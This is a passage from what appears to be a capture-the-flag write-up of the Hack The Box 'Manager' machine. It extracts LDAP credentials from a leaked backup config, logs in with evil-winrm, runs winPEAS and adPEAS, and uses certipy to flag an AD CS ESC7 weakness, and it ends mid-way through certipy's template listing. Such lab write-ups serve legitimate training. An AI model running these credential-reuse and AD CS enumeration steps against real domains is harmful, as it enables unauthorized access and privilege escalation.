wget http://manager.htb/website-backup-27-07-23-old.zip
unzip website-backup-27-07-23-old.zip
```

There is almost only html, images, and CSS files. But there is also a file “.old-conf.xml”.

```bash
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
      </access-user>
      <uid-attribute>cn</uid-attribute>
   </server>
   <search type="full">
      <dir-list>
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
      </dir-list>
   </search>
</ldap-conf>
```

Credential found :

raven@manager.htb : R4v3nBe5tD3veloP3r!123

## Initial access

### Exploitation

```bash
evil-winrm -u "raven@manager.htb" -p 'R4v3nBe5tD3veloP3r!123' -i manager.htb
```

## Post-Exploitation

### Host Reconnaissance

```bash
*Evil-WinRM* PS C:\Users\Raven\Desktop> whoami /all

USER INFORMATION
----------------

User Name     SID
============= ==============================================
manager\raven S-1-5-21-4078382237-1492182817-2568127209-1116

GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

```bash
https://github.com/carlospolop/PEASS-ng/releases/download/20231029-83b8fbe1/winPEASx64.exe
```

```bash
*Evil-WinRM* PS C:\Users\Raven\Documents> upload winPEASx64.exe
*Evil-WinRM* PS C:\Users\Raven\Documents> ./winPEASx64.exe
```

```bash
ÉÍÍÍÍÍÍÍÍÍ͹ LAPS Settings
È If installed, local administrator password is changed frequently and is restricted by ACL
    LAPS Enabled: LAPS not installed

ÉÍÍÍÍÍÍÍÍÍ͹ LSA Protection
È If enabled, a driver is needed to read LSASS memory (If Secure Boot or UEFI, RunAsPPL cannot be disabled by deleting the registry key) https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-protections#lsa-protection
    LSA Protection is not enabled

ÉÍÍÍÍÍÍÍÍÍ͹ Credentials Guard
È If enabled, a driver is needed to read LSASS memory https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-protections#credential-guard
    CredentialGuard is not enabled

ÉÍÍÍÍÍÍÍÍÍ͹ AV Information
  [X] Exception: Invalid namespace
    No AV was detected!!
    Not Found

ÉÍÍÍÍÍÍÍÍÍ͹ UAC Status
È If you are in the Administrators group check how to bypass the UAC https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#basic-uac-bypass-full-file-system-access
    ConsentPromptBehaviorAdmin: 5 - PromptForNonWindowsBinaries
    EnableLUA: 1
    LocalAccountTokenFilterPolicy:
    FilterAdministratorToken:
      [*] LocalAccountTokenFilterPolicy set to 0 and FilterAdministratorToken != 1.
      [-] Only the RID-500 local admin account can be used for lateral movement.

ÉÍÍÍÍÍÍÍÍÍ͹ Checking KrbRelayUp
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#krbrelayup
  The system is inside a domain (MANAGER) so it could be vulnerable.
È You can try https://github.com/Dec0ne/KrbRelayUp to escalate privileges

ÉÍÍÍÍÍÍÍÍÍ͹ Home folders found
    C:\Users\Administrator
    C:\Users\All Users
    C:\Users\Default
    C:\Users\Default User
    C:\Users\Public
    C:\Users\Raven : Raven [AllAccess]

ÉÍÍÍÍÍÍÍÍÍ͹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  MANAGER

```

Using resource : [https://orange-cyberdefense.github.io/ocd-mindmaps/](https://orange-cyberdefense.github.io/ocd-mindmaps/)

[https://github.com/61106960/adPEAS](https://github.com/61106960/adPEAS)

```bash
wget https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1
```

```bash
*Evil-WinRM* PS C:\Users\Raven\Documents> upload adPEAS.ps1
*Evil-WinRM* PS C:\Users\Raven\Documents> Import-Module .\adPEAS.ps1
*Evil-WinRM* PS C:\Users\Raven\Documents> Invoke-adPEAS
```

Find :

```bash
[?] +++++ Searching for Active Directory Certificate Services Information +++++
[+] Found at least one available Active Directory Certificate Service
adPEAS does basic enumeration only, consider reading https://posts.specterops.io/certified-pre-owned-d95910965cd2

[+] Found Active Directory Certificate Services 'manager-DC01-CA':
CA Name:                                manager-DC01-CA
CA dnshostname:                         dc01.manager.htb
CA IP Address:                          10.10.11.236
Date of Creation:                       07/27/2023 10:31:05
DistinguishedName:                      CN=manager-DC01-CA,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=manager,DC=htb
NTAuthCertificates:                     True
Available Templates:                    SubCA
                                        DirectoryEmailReplication
                                        DomainControllerAuthentication
                                        KerberosAuthentication
                                        EFSRecovery
                                        EFS
                                        DomainController
                                        WebServer
                                        Machine
                                        User
                                        Administrator

[?] +++++ Searching for Vulnerable Certificate Templates +++++
adPEAS does basic enumeration only, consider using https://github.com/GhostPack/Certify or https://github.com/ly4k/Certipy

[?] +++++ Checking Template 'SubCA' +++++
[!] Template 'SubCA' has Flag 'ENROLLEE_SUPPLIES_SUBJECT'
Template Name:                          SubCA
Template distinguishedname:             CN=SubCA,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=manager,DC=htb
Date of Creation:                       07/27/2023 10:31:05
EnrollmentFlag:                         0
[!] CertificateNameFlag:                ENROLLEE_SUPPLIES_SUBJECT
```

Let’s use certipy :

```bash
certipy find  -stdout  -target manager.htb -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```

```bash
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
[*] Got CA configuration for 'manager-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : manager-DC01-CA
    DNS Name                            : dc01.manager.htb
    Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start          : 2023-07-27 10:21:05+00:00
    Certificate Validity End            : 2122-07-27 10:31:04+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : MANAGER.HTB\Administrators
      Access Rights
        Enroll                          : MANAGER.HTB\Operator
                                          MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
    [!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
Certificate Templates
  0
    Template Name                       : KerberosAuthentication
    Display Name                        : Kerberos Authentication
    Certificate Authorities             : manager-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDns
                                          SubjectAltRequireDomainDns
    Enrollment Flag                     : AutoEnrollment
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
                                          Smart Card Logon
                                          KDC Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Enterprise Read-only Domain Controllers
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Domain Controllers
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Enterprise Domain Controllers
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  1
    Template Name                       : OCSPResponseSigning
    Display Name                        : OCSP Response Signing
    Enabled                             : False
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDnsAsCn
                                          SubjectAltRequireDns
    Enrollment Flag                     : Norevocationinfoinissuedcerts
                                          AddOcspNocheck
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : OCSP Signing
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 2 weeks
    Renewal Period                      : 2 days
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  2
    Template Name                       : RASAndIASServer
    Display Name                        : RAS and IAS Server
    Enabled                             : False
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireCommonName
                                          SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\RAS and IAS Servers
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  3
    Template Name                       : Workstation
    Display Name                        : Workstation Authentication
    Enabled                             : False
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Domain Computers
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  4
    Template Name                       : DirectoryEmailReplication
    Display Name                        : Directory Email Replication
    Certificate Authorities             : manager-DC01-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDns
                                          SubjectAltRequireDirectoryGuid
    Enrollment Flag                     : AutoEnrollment
                                          PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Directory Service Email Replication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Enterprise Read-only Domain Controllers
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Domain Controllers
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Enterprise Domain Controllers
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  5
    Template Name                       : DomainControllerAuthentication
    Display Name                        : Domain Controller Authentication
    Certificate Authorities             : manager-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
                                          Smart Card Logon
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Enterprise Read-only Domain Controllers
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Domain Controllers
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Enterprise Domain Controllers
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  6
    Template Name                       : KeyRecoveryAgent
    Display Name                        : Key Recovery Agent
    Enabled                             : False
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : AutoEnrollment
                                          PublishToKraContainer
                                          PendAllRequests
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Key Recovery Agent
    Requires Manager Approval           : True
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  7
    Template Name                       : CAExchange
    Display Name                        : CA Exchange
    Enabled                             : False
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Private Key Archival
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 week
    Renewal Period                      : 1 day
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  8
    Template Name                       : CrossCA
    Display Name                        : Cross Certification Authority
    Enabled                             : False
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
    Private Key Flag                    : ExportableKey
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 1
    Validity Period                     : 5 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  9
    Template Name                       : ExchangeUserSignature
    Display Name                        : Exchange Signature Only
    Enabled                             : False
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Secure Email
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  10
    Template Name                       : ExchangeUser
    Display Name                        : Exchange User
    Enabled                             : False
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Secure Email
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  11
    Template Name                       : CEPEncryption
    Display Name                        : CEP Encryption
    Enabled                             : False
    Client Authentication               : False
    Enrollment Agent                    : True
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Certificate Request Agent
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  12
    Template Name                       : OfflineRouter
    Display Name                        : Router (Offline request)
    Enabled                             : False
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  13
    Template Name                       : IPSECIntermediateOffline
    Display Name                        : IPSec (Offline request)
    Enabled                             : False
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : IP security IKE intermediate
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  14
    Template Name                       : IPSECIntermediateOnline
    Display Name                        : IPSec
    Enabled                             : False
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDnsAsCn
                                          SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : IP security IKE intermediate
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Domain Computers
                                          MANAGER.HTB\Domain Controllers
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  15
    Template Name                       : SubCA
    Display Name                        : Subordinate Certification Authority
    Certificate Authorities             : manager-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : ExportableKey
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 5 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  16
    Template Name                       : CA
    Display Name                        : Root Certification Authority
    Enabled                             : False
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : ExportableKey
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 5 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  17
    Template Name                       : WebServer
    Display Name                        : Web Server
    Certificate Authorities             : manager-DC01-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  18
    Template Name                       : DomainController
    Display Name                        : Domain Controller
    Certificate Authorities             : manager-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDnsAsCn
                                          SubjectAltRequireDns
                                          SubjectAltRequireDirectoryGuid
    Enrollment Flag                     : AutoEnrollment
                                          PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Enterprise Read-only Domain Controllers
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Domain Controllers
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Enterprise Domain Controllers
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
